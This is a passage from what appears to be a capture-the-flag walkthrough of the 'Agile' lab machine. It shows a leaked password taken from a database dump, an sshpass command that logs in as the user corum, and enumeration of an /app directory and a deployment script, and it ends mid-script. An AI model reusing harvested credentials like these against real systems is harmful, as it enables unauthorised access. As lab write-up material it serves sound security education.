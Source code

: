     |   8 | 2022-12-02 21:25:27 | 2022-12-02 21:25:27 | agile          | corum    | 5db7caa1d13cc37c9fc2 |       2 |
    | 195 | 2023-01-24 15:52:50 | 2023-01-24 15:52:50 | asdfasdf       | sadfsadf | 378ea0c651fa7964d9b5 |       5 |
    +-----+---------------------+---------------------+----------------+----------+----------------------+---------+
    6 rows in set (0.00 sec)
    

There’s a password for “agile” for the corum user. It works over ssh:

    
    
    oxdf@hacky$ sshpass -p '5db7caa1d13cc37c9fc2' ssh corum@superpass.htb
    ...[snip]...
    corum@agile:~$
    

## Shell as edwards

### Enumeration

#### Web Apps

There’s a parallel testing/dev instance of the site in `/app`:

    
    
    corum@agile:/app$ ls -l
    total 24
    drwxr-xr-x 5 corum     runner    4096 Jan 23 21:50 app
    drwxr-xr-x 8 runner    runner    4096 Jan 25 17:29 app-testing
    -r--r----- 1 dev_admin www-data    88 Jan 25 00:00 config_prod.json
    -r--r----- 1 dev_admin runner      99 Jan 25 15:15 config_test.json
    -rwxr-xr-x 1 root      runner     557 Jan 25 17:36 test_and_update.sh
    drwxrwxr-x 5 root      dev_admin 4096 Jan 25 17:21 venv
    

As corum, I’m able to access everything in `app`. I can read almost everything
in `app-testing` as well.

The `test_and_update.sh` script is also readable:

    
    
    #!/bin/bash
    
    # update prod with latest from testing constantly assuming tests are passing
    
    echo "Starting test_and_update"
    date
    
    # if already running, exit
    ps auxww | grep -v "grep" | grep -q "pytest" && exit
    
    echo "Not already running. Starting..."
    